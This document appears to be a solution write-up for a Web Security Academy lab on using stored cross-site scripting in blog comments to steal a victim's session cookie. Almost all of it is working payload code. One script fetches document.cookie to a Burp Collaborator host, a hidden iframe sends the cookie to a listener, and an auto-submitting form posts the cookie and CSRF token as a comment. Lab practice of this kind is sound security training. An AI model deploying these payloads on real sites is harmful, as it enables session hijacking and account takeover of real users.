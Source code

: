 Title: Exploiting cross-site scripting to steal cookies
Level: PRACTITIONER
Desc: This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim. 

fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});

<iframe width='1' height='1' src="javascript:var
url='http://0.0.0.0:9000?';url=url.concat(document.cookie);fetch(url);">

<script>
  var csrfToken = document.querySelector('input[name="csrf"]').value;
</script>
<form method="POST" action="https://0a650049030436b68009303c007b0035.web-security-academy.net/post/comment">
    <input type="hidden" name="postId" value="4">
    <input type="hidden" name="comment" value="test">
    <input type="hidden" name="name" id="nameId">
    <input type="hidden" name="email" value="test@test.ts">
    <input type="hidden" name="website" value="https://sdkldl.com">
    <input type="hidden" name="csrf" id="csrfId">
</form>
<script>
  document.addEventListener('DOMContentLoaded', function() {
  var form = document.querySelector('section.add-comment form');
  var csrfToken = form.querySelector('input[name="csrf"]').value;
  console.log(csrfToken);
  //document.querySelector('#myForm input[name="csrf"]').value = csrfToken;
  var cookie = document.cookie;
  document.querySelector('#nameId').value = cookie;
  document.querySelector('#csrfId').value = csrfToken;
  document.forms[0].submit();
  });
</script>

To get the csrf :)))))
```
<script>
  document.addEventListener('DOMContentLoaded', function() {
    var form = document.querySelector('section.add-comment form');
    var csrfToken = form.querySelector('input[name="csrf"]').value;
    console.log(csrfToken);
  });
</script>
```
